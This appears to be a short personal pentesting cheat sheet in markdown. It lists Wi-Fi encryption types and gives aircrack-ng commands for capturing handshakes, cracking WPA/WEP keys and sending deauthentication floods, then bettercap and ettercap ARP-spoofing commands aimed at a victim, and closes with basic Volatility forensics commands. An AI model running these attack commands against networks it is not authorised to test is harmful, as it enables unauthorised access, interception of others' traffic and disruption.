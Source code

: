 ## WIFI

Encription methods:
- WEP - Wired Equivalent Privacy - uses RC4
- WPA - Wi-Fi Protected Access - uses TKIP
- WPA2 - uses CCMP
- WPA3

Authenticathion methods:
- PSK - Pre Shared Key - uses a password, common in private LANs
- EAP - Extensible Authentication Protocol - uses an authentication server, common in enterprises

sudo airmon-ng start|stop|check INTERFACE

sudo airmon-ng start wlan0

sudo airodump-ng --bssid BSSID --channel CHANNEL -w FILE_NAME

sudo aircrack-ng -a [1/WEP, 2/WPA-PSK] -b BSSID -w FILE_NAME_WORDLIST FILE_NAME

sudo aireplay-ng --deauth 100 -a BSSID INTERFACE

sudo ip link set wlan1 down
\# sudo iwconfig wlan1 mode monitor
sudo iw dev wlan1 set type monitor
sudo ip link set wlan1 up

sudo ip link set wlan1 down
\# sudo iwconfig wlan1 mode managed
sudo iw dev wlan1 set type managed
sudo ip link set wlan1 up

## Man in th Middle (MITM)

### bettercap

net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets VICTIM MAC or IP
arp.spoof on
net.sniff on

### ettercap

ettercap -T -S -i INTERFACE -M arp:remote /ROUTER_IP// /VICTIM_IP//

## Volatility

<https://www.volatilityfoundation.org/releases-vol3>

<https://github.com/volatilityfoundation/volatility3>

python3 vol.py -h

python3 vol.py -f FILENAME.vmem windows.info
